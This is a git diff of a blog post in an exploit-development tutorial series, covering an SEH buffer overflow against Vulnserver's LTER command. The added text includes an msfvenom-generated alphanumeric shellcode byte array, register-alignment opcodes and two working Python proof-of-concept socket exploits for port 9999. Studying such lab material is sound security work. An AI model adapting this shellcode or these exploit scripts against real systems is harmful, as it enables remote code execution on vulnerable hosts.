

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/20-03-09-Vulnserver-LTER.md, in a window 1280 px wide and 1400 px high, scrolled down 9650 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 10280 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 20-03-09-Vulnserver-LTER.md

````diff
--- a/_posts/posts/20-03-09-Vulnserver-LTER.md
+++ b/_posts/posts/20-03-09-Vulnserver-LTER.md
@@ -347,3 +347,154 @@
 ##### The alignment seems to have done its work as intended.
 
 ![](/assets/img/LTER/12.png)
+
+##### The next step is pointing ESI to the shellcode, to do this, alphanumeric shellcode using the ESI register is generated, and the value of EBX is pushed into the stack and popped into EAX, in order to make the calculations smaller.
+
+```term
+root@whitecr0wz:~/Exploit-Dev/LTER# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed BufferRegister=ESI EXITFUNC=thread
+[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
+[-] No arch selected, selecting arch: x86 from the payload
+Found 1 compatible encoders
+Attempting to encode payload with 1 iterations of x86/alpha_mixed
+x86/alpha_mixed succeeded with size 440 (iteration=0)
+x86/alpha_mixed chosen with final size 440
+Payload size: 440 bytes
+Final size of py file: 2145 bytes
+buf =  b""
+buf += b"\x56\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
+buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
+buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
+buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
+buf += b"\x49\x6c\x38\x68\x6c\x42\x37\x70\x43\x30\x33\x30\x63"
+buf += b"\x50\x4f\x79\x48\x65\x75\x61\x4f\x30\x31\x74\x6e\x6b"
+buf += b"\x36\x30\x76\x50\x6c\x4b\x31\x42\x54\x4c\x6c\x4b\x62"
+buf += b"\x72\x64\x54\x4e\x6b\x54\x32\x37\x58\x44\x4f\x6e\x57"
+buf += b"\x73\x7a\x47\x56\x70\x31\x79\x6f\x6e\x4c\x55\x6c\x71"
+buf += b"\x71\x73\x4c\x75\x52\x44\x6c\x65\x70\x6f\x31\x48\x4f"
+buf += b"\x54\x4d\x33\x31\x6a\x67\x49\x72\x39\x62\x30\x52\x31"
+buf += b"\x47\x6e\x6b\x76\x32\x36\x70\x4c\x4b\x73\x7a\x77\x4c"
+buf += b"\x6e\x6b\x30\x4c\x77\x61\x30\x78\x4a\x43\x43\x78\x37"
+buf += b"\x71\x78\x51\x66\x31\x6c\x4b\x42\x79\x31\x30\x45\x51"
+buf += b"\x5a\x73\x4c\x4b\x70\x49\x66\x78\x6b\x53\x46\x5a\x31"
+buf += b"\x59\x6c\x4b\x56\x54\x4e\x6b\x35\x51\x79\x46\x64\x71"
+buf += b"\x4b\x4f\x6e\x4c\x7a\x61\x5a\x6f\x46\x6d\x56\x61\x78"
+buf += b"\x47\x67\x48\x49\x70\x73\x45\x4a\x56\x44\x43\x73\x4d"
+buf += b"\x7a\x58\x77\x4b\x43\x4d\x65\x74\x31\x65\x68\x64\x72"
+buf += b"\x78\x6c\x4b\x31\x48\x34\x64\x73\x31\x5a\x73\x75\x36"
+buf += b"\x4c\x4b\x76\x6c\x50\x4b\x6e\x6b\x76\x38\x77\x6c\x76"
+buf += b"\x61\x5a\x73\x6c\x4b\x74\x44\x4e\x6b\x35\x51\x6a\x70"
+buf += b"\x4c\x49\x37\x34\x47\x54\x64\x64\x43\x6b\x51\x4b\x65"
+buf += b"\x31\x76\x39\x70\x5a\x33\x61\x49\x6f\x4d\x30\x53\x6f"
+buf += b"\x33\x6f\x43\x6a\x6c\x4b\x65\x42\x48\x6b\x4c\x4d\x71"
+buf += b"\x4d\x31\x7a\x75\x51\x6e\x6d\x6b\x35\x48\x32\x63\x30"
+buf += b"\x67\x70\x33\x30\x30\x50\x55\x38\x45\x61\x6e\x6b\x52"
+buf += b"\x4f\x6f\x77\x4b\x4f\x4e\x35\x6f\x4b\x6d\x30\x47\x6d"
+buf += b"\x44\x6a\x66\x6a\x31\x78\x4c\x66\x4e\x75\x4f\x4d\x6f"
+buf += b"\x6d\x4b\x4f\x68\x55\x67\x4c\x33\x36\x71\x6c\x77\x7a"
+buf += b"\x6b\x30\x69\x6b\x59\x70\x30\x75\x73\x35\x4d\x6b\x72"
+buf += b"\x67\x57\x63\x53\x42\x52\x4f\x63\x5a\x53\x30\x36\x33"
+buf += b"\x59\x6f\x58\x55\x53\x53\x70\x61\x42\x4c\x70\x63\x46"
+buf += b"\x4e\x72\x45\x32\x58\x65\x35\x53\x30\x41\x41"
+```
+
+```term
+nasm > PUSH EBX
+00000000  53                push ebx
+nasm > POP EAX
+00000000  58                pop eax
+```
+
+###### PoC code:
+
+```term
+import socket, sys, struct
+
+[shellcode]
+
+alignment = ""
+alignment += "\x54\x58\x54\x5B"
+alignment += "\x66\x05\x58\x13"
+alignment += "\x50\x5C"
+alignment += "\x53\x58"
+
+nseh = struct.pack("<I", 0x06710870)
+seh = struct.pack("<I", 0x6250195E)
+
+buffer = "LTER /.:/" + "A" * 3 + buf + "A" * (3515  - 3 - len(buf)) + nseh + seh + "A" * 2 + alignment + "A" * 200
+
+host = sys.argv[1]
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+s.connect((host, 9999))
+
+s.send(buffer)
+
+s.close()
+```
+
+##### Once this is sent, it can be seen near the start of our buffer.
+
+![](/assets/img/LTER/13.png)
+
+##### The following step is to make EAX point to the shellcode, so it can be inserted in ESI later on.
+
+##### Calculating the address of the start of the shellcode against the value of EAX.
+
+```term
+root@whitecr0wz:~/Exploit-Dev/LTER# hexcalc 0x0185F20C 0x0185ECA4
+0x568
+root@whitecr0wz:~/Exploit-Dev/LTER#
+```
+
+##### Getting the values for the calculation.
+
+```term
+nasm > add ax, 0x568
+00000000  66056805          add ax,0x568
+nasm >
+```
+
+##### The opcodes required for PUSH EAX, POP ESI.
+
+```term
+nasm > PUSH EAX
+00000000  50                push eax
+nasm > POP ESI
+00000000  5E                pop esi
+```
+
+###### PoC code:
+
+```term
+import socket, sys, struct
+
+[shellcode]
+
+alignment = ""
+alignment += "\x54\x58\x54\x5B"
+alignment += "\x66\x05\x58\x13"
+alignment += "\x50\x5C"
+alignment += "\x53\x58"
+alignment += "\x66\x05\x68\x05"
+alignment += "\x50\x5E"
+
+nseh = struct.pack("<I", 0x06710870)
+seh = struct.pack("<I", 0x6250195E)
+
+buffer = "LTER /.:/" + "A" * 3 + buf + "A" * (3515  - 3 - len(buf)) + nseh + seh + "A" * 2 + alignment + "A" * 200
+
+host = sys.argv[1]
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+s.connect((host, 9999))
+
+s.send(buffer)
+
+s.close()
+```
+
+##### ESI is now pointing into the shellcode!
+
+![](/assets/img/LTER/14.png)
````
